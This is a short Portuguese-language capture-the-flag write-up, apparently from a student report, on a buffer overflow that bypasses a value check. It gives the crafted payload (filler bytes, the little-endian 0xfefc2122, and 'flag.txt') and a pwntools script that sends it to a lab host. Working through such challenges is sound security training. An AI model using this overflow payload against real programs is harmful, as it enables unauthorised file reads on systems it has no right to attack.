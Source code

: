 De modo a contornar a verificação extra basta enviar `0xfefc2122` entre os 20 caracteres iniciais e o `flag.txt`:
```
11111111111111111111\x22\x21\xfc\xfeflag.txt
```

De notar que a ordem dos bytes de `0xfefc2122` foi trocada devido ao sistema ser *little-endian*.

Mais uma vez utilizámos o *script* em *python* fornecido:
```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('10.227.243.188', 4000)

r.recvuntil(b":")
r.sendline(b"11111111111111111111\x22\x21\xfc\xfeflag.txt")
r.interactive()
```

E realizámos o ataque:  
![/imgs5/ctf/flag2.png](/imgs5/ctf/flag2.png)

(Nota (de novo): a *flag* submetida foi outra, dado que quando fizemos o *ctf* pela primeira vez
não tiramos *print*, guardando apenas a *flag*: `flag{03e288622daca70b7ad96e0d0b808279}`)
